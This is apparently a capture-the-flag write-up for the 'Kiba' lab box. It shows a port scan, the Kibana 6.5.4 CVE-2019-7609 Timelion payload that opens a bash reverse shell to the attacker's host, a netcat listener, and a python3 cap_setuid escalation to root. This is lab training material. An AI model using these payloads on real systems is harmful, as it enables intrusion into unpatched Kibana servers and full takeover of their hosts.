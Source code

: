 # Kiba

**1)** after running a scan we can see that 4 ports are open

command i used to scan all the ports:
```
rustscan $IP
```
results:
```
PORT     STATE SERVICE     REASON
22/tcp   open  ssh         syn-ack ttl 63
80/tcp   open  http        syn-ack ttl 63
5044/tcp open  lxi-evntsvc syn-ack ttl 63
5601/tcp open  esmagent    syn-ack ttl 63
```
**2)** by opening the browser and going to **http://$IP:5601/** you will find a web app


![](https://i.imgur.com/OBJLQNj.png)

**3)** if you click into Management you will find the **version** of the webapp on the top left corner wich is **6.5.4**

![](https://i.imgur.com/uEAsjYA.png)

**4)** after some research i found the [vulnerability](https://www.cvedetails.com/cve/CVE-2019-7609/) **CVE-2019-7609** with 10.0 of CVSS score and
i also found a github [repository](https://github.com/mpgn/CVE-2019-7609) explaining this vulnerability

**5)** click into Timelion section of the website and paste this 
```javascript
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/$LHOST/$LPORT 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
replace $LHOST with your local ip addres and $LPORT with a random local port

**6)** start netcat listening on your local port
```bash
nc -lvp $LPORT
```
**7)** click run and then click **canvas** on the left side menu

**8)** after some seconds your shell should appear

**9)** then get the user flag located in /home/kiba/user.txt
```bash
cat /home/kiba/user.txt
THM{****************}
```
**10)** the box says that root can be obtainied throught linux capabilities, then list all the capabilities with:
```bash
getcap -r /
```
after you ran this command you will see a lot of results but the most important are the latest 4 lines 
```bash
/home/kiba/.hackmeplease/python3 = cap_setuid+ep                                                                                                                                                                                           
/usr/bin/mtr = cap_net_raw+ep                                                                                                                                                                                                              
/usr/bin/traceroute6.iputils = cap_net_raw+ep                                                                                                                                                                                              
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```
wich shows a hidden directory /home/kiba/.hackmeplease and an interesting file wich is /home/kiba/.hackmeplease/python3
then by searching in gtfobins i found this [exploit](https://gtfobins.github.io/gtfobins/python/#capabilities)

**11)** then i ran the exploit
```bash
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
that gave me root shell

**12)** then get root flag
```bash
cat /root/root.txt
THM{****************************}
```

this was my first writeup ^^
